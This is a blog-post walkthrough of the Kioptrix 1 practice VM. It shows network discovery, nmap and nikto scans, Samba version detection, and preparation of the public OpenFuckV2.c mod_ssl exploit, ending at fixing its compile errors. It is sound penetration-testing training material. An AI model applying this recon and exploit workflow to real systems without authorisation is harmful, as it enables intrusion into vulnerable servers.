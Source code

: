 ```yaml
---
layout: post
title: Kioptrix 1 Walkthrough
---
```


Kioptrix VMs are meant as entry level pentest challenges where the goal is to get root privileges.
Download [Kioptrix 1 here](http://www.kioptrix.com/blog/test-page/) or from [Vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/#download).

<h3>Finding the Host</h3>

Using <code>netdiscover</code> the IP address of the target is found.

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># netdiscover -r 192.168.201.0/24 -i eth0

 Currently scanning: Finished!   |   Screen View: Unique Hosts        
 19 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1140
 _________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname  
 -------------------------------------------------------------------------
 192.168.201.1   00:50:56:c0:00:08     14     840  VMware, Inc.
 192.168.201.2   00:50:56:fa:93:9d      3     180  VMware, Inc.
 <span class="out-line">192.168.201.132 00:0c:29:75:c4:41      1      60  VMware, Inc.</span>
 192.168.201.254 00:50:56:e2:0c:13      1      60  VMware, Inc.
</pre>

<h3>Enumeration</h3>

An <code>nmap</code> scan shows 6 open ports on the host:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># nmap -sV -p- -T4 192.168.201.132

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-07 17:02 EST
Nmap scan report for 192.168.201.132
Host is up (0.000076s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:75:C4:41 (VMware)
</pre>

<h3>Enumeration:80/tcp http</h3>

A <code>nikto</code> scan yields some useful information on the host's webserver:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># nikto -h 192.168.201.132
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.201.132
+ Target Hostname:    192.168.201.132
+ Target Port:        80
+ Start Time:         2017-12-12 15:01:51 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server leaks inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ ... (other nikto output) ...
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
<span class="out-highlight">+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.</span>
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ ... (other nikto output) ...
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8345 requests: 0 error(s) and 21 item(s) reported on remote host
+ End Time:           2017-12-12 15:02:16 (GMT-5) (25 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
</pre>

Searching online for CVE-2002-0082 produces a corresponding PoC exploit: [Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow](https://www.exploit-db.com/exploits/764/)

<h3>Enumeration:139/tcp netbios-ssn</h3>

The samba version running on the host is identified using MSF's <code>smb_version</code> module:

<pre class="console-output">
<u>msf</u> auxiliary(<span class="prompt">smb_version</span>) > run

<span class="dir"><b>[*]</b></span> 192.168.201.132:139   - Host could not be identified: Unix (<span class="out-highlight">Samba 2.2.1a</span>)
<span class="dir"><b>[*]</b></span> Scanned 1 of 1 hosts (100% complete)
<span class="dir"><b>[*]</b></span> Auxiliary module execution completed
</pre>

Searching online for this samba version also yields an exploit:<br> [Samba < 2.2.8 (Linux/BSD) - Remote Code Execution](https://www.exploit-db.com/exploits/10/)<br>
MSF: [Samba trans2open Overflow (Linux x86)](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open)

<h3>Exploitation:80/tcp http</h3>

A copy of the OpenFuckV2.c is copied into the current dir, which contains [instructions on how to update](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/) and compile it. Once updated, trying to compile in Kali Linux produces some errors using <code>gcc</code>:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># searchsploit -m 764
Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Exploit
    URL: https://www.exploit-db.com/exploits/764/
   Path: /usr/share/exploitdb/platforms/unix/remote/764.c

Copied to: /root/764.c

<span class="prompt">root@kali</span>:<span class="dir">~</span># ... (Steps Update OpenFuck Exploit) ...

<span class="prompt">root@kali</span>:<span class="dir">~</span># gcc -o OpenFuck 764.c -lcrypto
<b>764.c:645:24:</b> <span class="prompt">error:</span> ‘<b>SSL2_MAX_CONNECTION_ID_LENGTH</b>’ undeclared here (not in a function); did you mean ‘<b>SSL_MAX_SSL_SESSION_ID_LENGTH</b>’?
  unsigned char conn_id[<span class="prompt">SSL2_MAX_CONNECTION_ID_LENGTH</span>];
                        <span class="prompt">^~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span>
                        <span class="out-green">SSL_MAX_SSL_SESSION_ID_LENGTH</span>
<b>764.c:</b> In function ‘<b>read_ssl_packet</b>’:
<b>764.c:847:19:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_ERROR</b>’ undeclared (first use in this function); did you mean ‘<b>SSL_METHOD</b>’?
    if ((buf[0] == <span class="prompt">SSL2_MT_ERROR</span>) && (rec_len == 3)) {
                   <span class="prompt">^~~~~~~~~~~~~</span>
                   <span class="out-green">SSL_METHOD</span>
<b>764.c:847:19:</b> note: each undeclared identifier is reported only once for each function it appears in
<b>764.c:</b> In function ‘<b>get_server_hello</b>’:
<b>764.c:979:16:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_SERVER_HELLO</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_SERVER_HELLO</b>’?
  if (*(p++) != <span class="prompt">SSL2_MT_SERVER_HELLO</span>) {
                <span class="prompt">^~~~~~~~~~~~~~~~~~~~</span>
                <span class="out-green">SSL3_MT_SERVER_HELLO</span>
<b>764.c:</b> In function ‘<b>send_client_master_key</b>’:
<b>764.c:1071:10:</b> <span class="prompt">error:</span> dereferencing pointer to incomplete type ‘<b>EVP_PKEY {aka struct evp_pkey_st}</b>’
  if (pkey<span class="prompt">-></span>type != EVP_PKEY_RSA) {
          <span class="prompt">^~</span>
<b>764.c:</b> In function ‘<b>get_server_verify</b>’:
<b>764.c:1148:16:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_SERVER_VERIFY</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_SERVER_HELLO</b>’?
  if (buf[0] != <span class="prompt">SSL2_MT_SERVER_VERIFY</span>) {
                <span class="prompt">^~~~~~~~~~~~~~~~~~~~~</span>
                <span class="out-green">SSL3_MT_SERVER_HELLO</span>
<b>764.c:</b> In function ‘<b>send_client_finished</b>’:
<b>764.c:1160:11:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_CLIENT_FINISHED</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_FINISHED</b>’?
  buf[0] = <span class="prompt">SSL2_MT_CLIENT_FINISHED</span>;
           <span class="prompt">^~~~~~~~~~~~~~~~~~~~~~~</span>
           <span class="out-green">SSL3_MT_FINISHED</span>
<b>764.c:</b> In function ‘<b>get_server_finished</b>’:
<b>764.c:1173:16:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_SERVER_FINISHED</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_SERVER_DONE</b>’?
  if (buf[0] != <span class="prompt">SSL2_MT_SERVER_FINISHED</span>) {
                <span class="prompt">^~~~~~~~~~~~~~~~~~~~~~~</span>
                <span class="out-green">SSL3_MT_SERVER_DONE</span>
</pre>

This can be solved by running <code>apt-get install libssl1.0-dev</code>.
